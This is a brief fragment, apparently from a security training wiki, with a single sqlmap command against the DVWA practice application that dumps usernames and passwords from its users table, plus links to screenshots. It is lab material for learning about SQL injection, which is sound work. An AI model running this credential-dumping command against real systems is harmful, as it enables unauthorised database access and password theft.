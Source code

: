 ```bash
sqlmap -u "<target>" -D dvwa -T users -C user,password --dump --cookie="PHPSESSID=xyz; security=low"
```

![SQLMap 6](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Posea%20Alina/images/19.png?raw=true)

![SQLMap 7](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Posea%20Alina/images/20.png?raw=true)
